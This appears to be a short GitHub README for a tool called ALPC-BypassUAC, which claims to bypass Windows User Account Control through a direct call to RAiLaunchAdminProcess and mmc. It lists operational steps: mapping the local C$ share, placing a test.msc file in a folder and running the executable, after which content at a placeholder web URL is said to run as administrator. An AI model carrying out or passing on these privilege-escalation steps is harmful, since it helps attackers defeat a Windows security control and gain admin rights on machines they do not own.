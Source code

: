# ALPC-BypassUAC

UAC bypass with Direct call to RAiLaunchAdminProcess and mmc.

1. net use \\127.0.0.1\C$
2. Create Folder C:\gweeperx
3. Copy paste test.msc inside C:\gweeperx
4. Execute ALPC-BypassUAC.exe
5. anything under https://web/jskdnvkjsdnfkjsdfnjsfnl.html will be executed as admin